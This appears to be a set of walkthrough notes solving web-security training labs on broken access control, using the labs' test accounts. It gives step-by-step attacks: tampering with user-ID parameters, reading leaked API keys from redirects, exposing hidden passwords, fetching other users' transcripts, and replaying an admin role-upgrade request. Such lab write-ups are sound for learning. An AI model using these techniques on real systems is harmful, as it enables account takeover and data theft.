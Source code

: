 #### User ID controlled by request parameter
```
Login as wiener/peter:
/my-account?id=carlos

Copy and submit the API key
```

#### User ID controlled by request parameter, with unpredictable user IDs 
```
Login as wiener/peter:
Go to /post?postId=3, to find carlos' userId.
User that userId to get API key from My Account page.
```

#### User ID controlled by request parameter with data leakage in redirect
```
Login as wiener/peter
Go to /my-account?id=carlos => it redirects back to home page
Go to /my-account?id=carlos and intercept the response in Burp
Before redirection, the API key for carlos is leaked.
```

#### User ID controlled by request parameter with password disclosure
```
Login as wiener/peter
Go to /my-account?user=administrator
Change input type of password to text
Login as administrator/xj6efi
Delete carlos
```

#### Insecure Direct Object References
```
Login as wiener/peter
Go to /chat and Download Transcript
Intercept request in Burp to see that transcript is being downloaded from /download-transcript/2.txt
Go to /download-transcript/1.txt
Get carlos' password: qahe69
Login to carlos' account
```

#### Multi-step process with no access control on one step
```
Login as adminstrator/admin
Observe request for upgrading a user:

POST /admin-roles HTTP/1.1
action=upgrade&confirmed=true&username=wiener

Repeat the request while logged in as wiener
```
